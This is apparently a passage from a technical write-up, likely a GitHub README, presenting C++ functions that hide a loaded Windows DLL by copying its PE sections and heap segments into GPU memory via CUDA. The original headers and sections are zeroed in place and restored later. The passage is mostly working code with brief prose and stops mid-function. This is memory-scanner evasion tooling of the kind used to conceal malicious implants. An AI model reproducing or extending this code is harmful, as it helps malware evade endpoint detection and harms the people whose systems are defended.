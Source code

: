 ```cpp
		ULONG_PTR dst = (ULONG_PTR)((SIZE_T)storage + section->VirtualAddress);
		Api->CudaMemoryCopyToDevice(dst, (byte*)dll + section->VirtualAddress, SectionSize);

		//zero out section
		VirtualProtect((LPVOID)((SIZE_T)dll + section->VirtualAddress), SectionSize, PAGE_READWRITE, &oldProtect);
		memset((LPVOID)((SIZE_T)dll + section->VirtualAddress), 0, SectionSize);
		VirtualProtect((LPVOID)((SIZE_T)dll + section->VirtualAddress), SectionSize, oldProtect, &oldProtect);
	}

	ULONG_PTR dst = (ULONG_PTR)((SIZE_T)storage + NTheader->OptionalHeader.SizeOfImage);
	for (auto it = heapMap.cbegin(); it != heapMap.cend(); ++it)
	{
		printf("Moved %08x to %08x\n", it->first, dst);

		heapLocationMap[(LPVOID)dst] = it->first;

		Api->CudaMemoryCopyToDevice((ULONG_PTR)dst, it->first, it->second);

		memset(it->first, 0, it->second); // zero out
		dst = (ULONG_PTR)((SIZE_T)dst + it->second);
	}

	//zero module headers
	VirtualProtect((LPVOID)dll, dosHeader->e_lfanew + NTheader->OptionalHeader.SizeOfHeaders, PAGE_READWRITE, &oldProtect);
	memset((LPVOID)dll, 0, dosHeader->e_lfanew + NTheader->OptionalHeader.SizeOfHeaders);
	VirtualProtect((LPVOID)dll, dosHeader->e_lfanew + NTheader->OptionalHeader.SizeOfHeaders, oldProtect, &oldProtect);

	return storage;
}
```

### MoveDLLFromGPUStrorage
This function does what the previous function did but in reverse. The function uses `SizeOfHeaders` to move the PE headers from GPU memory to previous location and then parses those headers. Sections are then moved back in place at the exact same position than before. Heap segments are restored as well and finally, the GPU memory is freed.
```cpp
VOID MoveDLLFromGPUStrorage(HMODULE dll, ULONG_PTR storage, DWORD SizeOfHeaders, PNVIDIA_API_TABLE Api) {
	DWORD oldProtect;

	// Set mem to zero and copy headers to mem location
	VirtualProtect((LPVOID)dll, SizeOfHeaders, PAGE_READWRITE, &oldProtect);
	Api->CudaMemoryCopyToHost((PVOID)dll, storage, SizeOfHeaders);
	VirtualProtect((LPVOID)dll, SizeOfHeaders, oldProtect, &oldProtect);

	// Get headers
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)dll;
	PIMAGE_NT_HEADERS NTheader = GetNTHeaders((HMODULE)dll);

	// Get first section
	PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(NTheader);

	// Copy all sections to memory
	for (int i = 0; i < NTheader->FileHeader.NumberOfSections; i++, section++)
	{
		DWORD SectionSize = section->Misc.VirtualSize;
```